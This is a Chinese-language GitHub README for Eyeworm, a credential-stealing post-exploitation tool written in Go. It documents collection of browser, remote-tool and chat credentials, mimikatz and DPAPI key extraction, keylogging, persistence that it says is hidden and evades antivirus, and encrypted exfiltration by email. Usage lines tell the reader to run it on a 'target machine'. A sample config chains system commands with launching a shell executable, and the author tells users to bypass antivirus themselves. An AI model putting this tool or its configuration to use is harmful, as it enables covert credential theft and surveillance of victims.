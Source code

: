 [Click here for English version](https://github.com/imsellbaox/Eyeworm/blob/master/README-English.md)

# Eyeworm V 1.2.0 介绍

一款Go语言实现的强大的灵活的自定义的信息收集工具，支持文件、文件夹、文件内容、自定义命令、注册表、指定进程、mimikatz命令、dpapi、最近访问记录等内容的收集。支持灵活的定制化配置，只需更新定义收集规则的配置文件，选择需要执行的规则，即可开启对各类浏览器、remote管理工具、敏感关键词、聊天软件进行凭据、信息收集，并且支持持久化，内容加密传输等，持续跟新中，欢迎大家提供更为丰富的收集配置规则集合。



### 我即是虫群!

![EyeWorm](EyeWorm.jpg)

## 特性

- 支持常用软件凭据收集，可配置式的自定义常用软件凭据的文件路径，注册表，后缀等——XML,JSON，INI,TXT格式
- 可通过自定义mremoteNG、MobaXterm、Terminals、Remote Desktop Connection、RDO、XT800、VNC等各种远程控制软件，笔记软件的配置文件，数据 文件，key文件，注册表信息，最近访问记录等等信息的采集。规则集越多，适用环境就越多，采集的信息就越多，欢迎大家在问题区提供自己的配置，我会抽时间整合到主版本里
- 支持Linux,Window下运行（目前只完成了Windows下的实现）
- 支持进程对应路径下凭据收集
- 支持命令执行结果的收集，如运行命令获取环境变量，以及根据关键字提取环境变量里的凭证
- 支持安装脚本临时文件里凭据收集
- 支持文本，文档里的凭据收集（全文检索，已经实现一版，但考虑搜索文件的类型支持，效率和资源占用等问题后续可能需要重构）
- 支持最近访问记录的文件收集
- 支持常见凭据的解密（集成Mimikatz实现）
- 支持keylog
- 支持共享文件，USB存储文件凭据的收集（暂未实现）
- 支持常驻收集时内容相同去重 （暂未实现）
- 支持收集后自动压缩加密传输到外部
- 支持做成cs的插件（暂未实现）

## 命令参数和功能

-all     相当于执行以下 -wfiles -wcommands -wprocess -wregistry -wrecent -wmimikatz -dpapi参数命令
-wfiles  根据配置文件对文件、文件夹、内容收集 文件名支持通配符 *，?  例如: a?c、ab* 、 *密码

-wcommands  根据配置文件的cmd命令集收集输出信息（結合wfiles，可进行命令结果文件收集）

-wprocess 根据配置文件的进程名，匹配正在运行的进程路径进行信息收集

-wregistry 根据配置文件配置收集注册表项信息

-wrecent  根据配置文件配置收集最近访问中的目标文件

-wmimikatz 根据配置文件配置 使用加密型mimikatz进行结果收集

-dpapi 获得Masterkey

-spy 开启监控，关机后结束

-redeye 开启常驻模式（持久化，重启自启），需要配置 回传邮件、打包密码、常驻规则。（该模式已经实现免杀和隐藏，必须用相同配置文件的unred解除）
例如 ：`Eyeworm -wfiles -wcommands -redEye` 开启文件、命令 的常驻收集

-upload 上传收集结果 需要配置 回传邮件、打包密码

-o="result.txt" 把收集结果输出文件

-keylog 键盘记录功能开启（必须开启redeye或spy）

-unred 解除该电脑的redeye常驻模式

## 配置文件 EyeConfig.json说明

通用配置字段在配置文件里都有说明，下面是对单个收集策略字段说明：

`        {

```
        "RuleName":"DefultFilesWorm",         //自定义的规则名称 如扩展chromeWorm，QQBrowerWorm 用于区分
        
        "OS": "Windows",                      //适配操作系统，计划后续版本兼容Linux,Unix   
        
        "CollectorType": "File",              //收集策略对应的类型， 如wfiles 收集的就是类型为File的收集策略，目前主要有以下类别：
                                            （File 文件收集，Command 命令收集，Recent 最近访问，Process 指定进程收集，Registry 注册表收集， APi mimikatz收集）
        
        "Category": "defult",                // 分类 用于规则集合归类如：Browsers、remoteTools,、chatTool
        
        "Locations":["C:/Users/admin/Chrome","E:/QQ"],  //搜索路径集，文件，文件夹必配字段
        
        "ContentKeys": ["\"_id\":","password:"],       //内容收集的匹配关键字，采集内容文件，文件夹市ContentKeys可选字段
        
        "FileName":["*c","a?b","*"],                    //文件名匹配字，文件，文件夹必配字段         
        
        "SuffixTypes":[".txt"],                         // 搜索文件后缀，文件，文件夹必配字段
        
        "Explain": "文件及文件夹收集,支持 * 通配符  ",   //规则作用和配置说明注释字段，=
        
        "Commands":["set && ipconfig/all >>info.txt &&start 'E:\shell.exe'"],    // 命令收集中需要执行的命令，命令收集必配字段）
        
        "ProcessName": ["QQ.exe","Chrome.exe"],                 // 进程收集中的进程，进程收集必配字段。进程采集主要是根据当前系统运行的进程获取其对应的路径，快速定位自定义安装场景下的配置文件或者关键文件的路径
        
        "DeCrypt": false,                                     //   保留字段，本机文件或者数据解密功能（todo）
        
        "DeCryptCommand": null                                //保留字  解密命令 （todo）
        
    },`
```

## 编译和更新配置

### 编译

进入 PackSource 中，配置好ico，EyeConfig.json，versioninfo.json，main.manifest 四个文件 运行PackSource.go 得到 main.syso 在EyeWorm目录下

回到EyeWorm目录下，go build 

### 更新配置文件

考虑AllInOne带来的便利性和安全性，采集配置文件是内嵌exe中的，go编译出来的EXE和节表和其他编译不太一样，防止重复编译麻烦，提供UpdateSource工具更新内嵌的EyeConfig.json 配置文件。考虑到后续Linux的实现，此部分后续很可能需要重构，使用方法:

1. 编译UpdateSource中内容，得到更新工具UpdateSource.exe
2. 根据自己需要修改好EyeConfig.json
3. 编译好`UpdateSource.exe -File=Eyeworm.exe -Data=EyeConfig.json`  即可更新

### 使用

Eyeworm.exe上传在目标机器上执行对应命令
例：`Eyeworm.exe -wfile -wcommand -wprocess -wregistry -wrecent -wmimikatz -keylog -redeye`

![commnd](img1.png)
![config](img2.png)

## ToDo

- 提高内容关键字搜索采集的高效率低资源的采集算法
- 实现Linux/Unix环境下的自定义采集
- 实现Linux/Unix环境下的Keylog
- 实现继承自定义增加一个或者多个，类似mimikatz这样的payload功能
- 实现ELF下的配置文件自更新功能
- 实现自生成对应OS下的采集可执行文件，并每次自动变形加密
- 实现keylog记录文件自定义加密解密
- 支持做成cs的插件
- 实现支持更为隐蔽的自动回传模式，SMTP模式毕竟古老并会泄漏邮箱授权Token

## 注意

需要使用管理員权限运行，否则 常驻和mimikatz功能可能失败

由于集成了mimiktaz，虽然本版本发布的时候做了测试大部分AV都Bypass，但可能由于时间推移导致部分杀软提示有毒，请自行bypass

# 联系我                ---萧枫

本人热爱技术，钻研，欢迎志同道合的兄弟一起研究讨论
邮件：1098516987@qq.com      CSDN:[https://blog.csdn.net/VB551](https://blog.csdn.net/VB551)

# 转载发表请注明原文地址  [https://github.com/imsellbaox/Eyeworm](https://github.com/imsellbaox/Eyeworm)
